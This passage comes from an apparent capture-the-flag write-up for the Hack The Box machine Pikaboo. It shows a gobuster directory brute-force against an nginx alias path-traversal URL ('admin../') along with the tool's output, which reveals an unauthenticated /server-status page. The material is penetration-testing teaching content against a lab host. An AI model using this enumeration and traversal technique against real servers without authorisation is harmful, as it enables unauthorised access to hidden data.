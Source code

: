 ```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x php -u http://pikaboo.htb/admin../
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://pikaboo.htb/admin../
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2021/10/31 15:27:51 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 401) [Size: 456]
/javascript           (Status: 301) [Size: 314] [--> http://127.0.0.1:81/javascript/]
/server-status        (Status: 200) [Size: 5117] 
```

We see /server-status show up and responds with a 200 instead of an unauthorized like you'd expect. It looks like this web-server is misconfigured and we're able to see assets that should be hidden to us without authentication.

Going to the server-status path, we see the following:


[1]: https://app.hackthebox.com/users/157669
[2]: https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/
[3]: https://book.hacktricks.xyz/pentesting/pentesting-web/nginx
[4]: https://wiki.sei.cmu.edu/confluence/pages/viewpage.action?pageId=88890543
[5]: https://www.hackthebox.eu